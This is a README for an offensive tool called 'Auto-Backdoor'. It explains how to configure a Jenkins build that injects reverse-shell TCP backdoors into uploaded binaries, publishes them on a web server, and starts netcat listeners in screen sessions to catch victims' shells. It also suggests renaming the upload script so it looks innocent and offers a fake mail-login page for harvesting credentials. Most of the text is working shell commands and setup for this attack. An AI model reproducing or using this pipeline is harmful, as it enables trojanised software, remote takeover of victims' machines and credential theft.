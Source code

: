 # Auto-Backdoor
Need a jenkins server running, on it make a build, this build needs to be paramatized with the following text pramaters

`dir` 
`Payload_Type`
`port`
`IP`
`binName`

Usage: `python abd.py $BINARY $PLACE TO UPLOAD / DOWNLOAD $PUT SCRIPT LOCATION $JENKINS URL $Jenkins token $Jenkins project location $0 for linux $not used yet, always 0 $Backdoor callback port $backdoor callback ip / domain name`

Jenkins configuration:
	Standord jenkins build, easiest to change jenkins user to be same as www root if on save server (on ubuntu it is www-data, edit	###NEED TO FIND CONFIG LOCATION###)
	Need to edit the following in jenkins:
		1: Make it a pramatrised build with the following
			1: dir
			2: Payload_Type
			3: port		(Note: For shell call back)
			4: IP		(Note: For shell call back)	
			5: binName
		2: Check allow simotaius builds
		3: Set allow remote triggred with a token
		4: Build shell with following:
```rp=$(expr 1024 + $BUILD_NUMBER) #make it a port that is non-reserved and non-taken, should exclude 8080 and a few others
echo $rp
cp /in/$dir .
backdoor -f $dir -P $rp -H $IP -s reverse_shell_tcp
cp backdoored/$dir /var/www/html/out/$dir
echo "\nPutting $rp session //need ip address from victom here" >> /var/www/html/list_screens_go_to_what
## NEED SCREEN AND netcat-openbsd packages (sudo apt-get install netcat-openbsd) as default nc does not have the -k flag
screen -S L_$rp -d -m \'nc -lnvkp $rp\'
#screen -ls #debugging```

PHP Configuration:
	I use apache2 with PHP5
	`sudo apt-get install apache2 libapache2-mod-php5 php5-cgi`
	move the put.php into /var/www/html/ and change the name to something that would not be susspisus
	if you want there is a basic template for making it look like a mail login, with cred harvesting, move everything in mail/ to /var/www/html
		edit `/etc/apache2/sites-enabled/000-default.conf` and add `DirectoryIndex index.php` to index.php
	
To get shell back:
	nc -lnvp $Backdoor Port #wait for shell

For help email ABD@rahartshorn.com

--
Robert Hartshorn
